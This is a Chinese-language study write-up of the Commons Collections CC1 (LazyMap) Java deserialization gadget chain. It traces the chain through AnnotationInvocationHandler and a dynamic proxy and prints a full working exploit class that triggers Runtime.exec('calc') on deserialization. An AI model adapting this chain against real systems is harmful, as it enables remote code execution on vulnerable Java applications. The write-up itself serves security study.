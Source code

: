 # Java 反序列化之 CC1
这一篇还是记录一下 ysoserial 的正版 CC1！

**前置知识：**

1. 动态代理
2. 正版cc1


## 正版 CC1 链分析

### 1.寻找链尾的 exec 方法

- 漏洞点还是 `InvokerTransformer#transform()`

```java
            Class cls = input.getClass(); // input 是外部传入参数
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
```

在该方法处进行 find usages 操作。然后发现`LazyMap#get()`调用了 `transform()` 方法！

```java
  Object value = factory.transform(key); // key 是外部传入的参数
```

> 上一篇说的是 TransformedMap 的链子，今天则是正版 CC1 链里面的 LazyMap 链子


### 2.寻找链子

`get()`中的 `factory` 调用了 transform() ，所以现在去找 `factory` 是什么。

追踪发现，`factory` 是 LazyMap 的一个成员变量（protected），同时 LazyMap 的 `decorate()` 静态方法可以实例化一个 LazyMap 类对象，并且可以控制 `factory` 的值。

> 这和 TransformedMap 是不是很相似呢？

 为什么关注 decorate()方法而不尝试直接实例化 LazyMap 呢？因为 LazyMap 的构造函数是 `private`，所以无法直接获取，而 `decorate()` 可以实例化一个`LazyMap` 对象。

继续寻找谁调用了 get() 方法。最终在 **AnnotationInvocationHandler#invoke()** 方法中找到了有一个地方调用了 get() 方法。 

```java
        // Handle annotation member accessors
        Object result = memberValues.get(member);
        // memberValues 是成员变量
        // member 外部可控
```

> 过于夸张，一共有2871个结果，不知道漏洞的发现者到底是如何找到这条链的。。。如果沒有找到 AnnotationInvocationHandler 的话，可以按住 ctrl+shift+r 开启全局搜索 AnnotationInvocationHandler

同时这个类也非常好，它里面有 `readObject()` 方法，可以作为我们的入口类。最后的问题是怎样通过 `readObject()` 触发 `invoke()`？

需要触发 `invoke()` 方法，马上想到动态代理，一个类被动态代理了之后，当通过代理调用该类方法时，会自动调用对应的调用处理器的 `invoke()` 方法。

**readObject()中有什么方法和动态代理相关吗？**

答案是有的， `readObject()` 中调用了 `memberValues.entrySet()` 方法。也就是说，如果我们将 `memberValues` 的值改为动态代理类实例，那么当调用 entrySet()时就会自动执行调用处理器的 `invoke()` 方法了，这样就完成了整条链子的调用。

```java
for (Map.Entry<String, Object> memberValue : memberValues.entrySet())
```

> 利用 memberValues 是因为该参数外部可控。

最后是进行 exp 的编写了，具体咋编写的就不阐述了，希望读者自行跟踪分析出来。

**最终的 exp 如下：**

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

// 正版 CC1 链最终 EXP
public class Main {

        public static void main(String[] args) throws Exception{

                Transformer[] transformers = new Transformer[]{
                        new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                        new InvokerTransformer("getMethod",
                                new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                        new InvokerTransformer("invoke"
                                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
                };

                ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
                HashMap<Object, Object> hashMap = new HashMap<>();
                Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

                // 通过反射实例化一个 AnnocationInvocationHandler 类对象
                Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
                Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
                declaredConstructor.setAccessible(true);
                InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Target.class, decorateMap);

                //生成动态代理类对象
                Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()
                        , new Class[]{Map.class}, invocationHandler);

                // 实例化一个 AnnotationInvocationHandler 类对象并进行序列化，之后反序列化时就会调用到 AnnotationInvocationHandler 类的 readObject 方法
                InvocationHandler invocationHandler1 = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);

                serialize(invocationHandler1);
                unserialize("ser.bin");


        }
        public static void serialize(Object obj) throws IOException {
                ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
                oos.writeObject(obj);
        }
        public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
                ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
                Object obj = ois.readObject();
                return obj;
        }

}

```

~~EXP 最后又新建了一个 InvocationHandler1 实例并将这个实例反序列化，这一步目前真的不明白。~~

>再一次学习动态代理后我大概理解了 exp 的操作，反序列化后会调用 invocationHandler1 的 readObject() 方法，而 invocationHandler1 的 memberValues 传入的是一个代理类对象 proxyMap，所以在AnnotationInvocationHandler 类的 444 行调用 memberValues.entrySet() 方法时调用的是 proxyMap.entrySet() ，根据动态代理相关知识，这里会自动调用和这个 proxyMap 相关联的调用处理器的 invoke() 方法。
和 proxyMap 相关联的调用处理器是 invocationHandler，所以会调用 invocationHandler 的 invoke() 方法，而 invocationHandler 又是 AnnotationInvocationHandler 类对象，所以会调用该类的 invoke() 方法，最终在这个方法里面调用了 memberValues.get(member);
而此时的 memberValues 是 decorateMap，这样就接上了我们的链子。


1. 最后会调用到 LazyMap 的 get 方法，传入的参数值是 `entrySet`
2. 之后调用 factory.transfrom(key)，factory为 chainedTransformer，key 为 entryset
3. 上一步的 key 是 entryset ，经过 chainedTransformer 的 transform 方法转换之后 key 首先变成了 Runtime.class，之后就是变成 InvokerTransformer 命令执行所需的一系列对象，最终导致命令执行


## 参考链接

[芜风师傅](https://drun1baby.github.io/2022/06/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8702-CC1%E9%93%BE%E8%A1%A5%E5%85%85/)

[ysoserial-CommonsCollections](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)

